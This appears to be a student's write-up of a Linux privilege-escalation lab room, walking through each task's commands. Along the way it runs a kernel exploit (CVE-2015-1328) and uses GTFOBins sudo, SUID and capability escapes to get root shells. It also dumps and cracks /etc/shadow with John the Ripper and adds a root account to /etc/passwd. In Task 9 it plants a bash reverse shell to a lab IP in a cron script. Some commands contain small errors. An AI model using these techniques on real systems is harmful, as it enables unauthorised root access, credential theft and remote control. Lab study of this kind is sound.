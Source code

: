 # Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 

## TASK 8
This task looks at the capabilities of the binaries on the box. using the command ```getcap -r / 2>/dev/null``` was able to answer the first three questions of this section. The additional binary that was found on the box for me was a service called view. In this case to take advantange of the capabilities I used the command
    ```/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
This started a shell that would be started as root and I'd be able to print the contents of the flag file.

## TASK 9
used the ```cat /etc/crontab``` command to find the list of all the chron jobs across the system. Finding the file that my user owns, I modify that file by adding the command:
    ```bash -i >&/dev/tcp/10.10.14.15/9000 >&1```
Once you verify that the backup.sh file has +x permissions on it, you should be ready to set up the listener on the AttackBox:
    ```nc -lnvp 9000```
The reverse shell should show up and the flag is fairly straight forward to find from there. To get Matt's password we need some of the previous skills from previous tasks to help us out. Since we're already running as root, we should be able to dump the /etc/passwd and /etc/shadow files so that we can run John the Ripper on the AttackBox to crack the code.
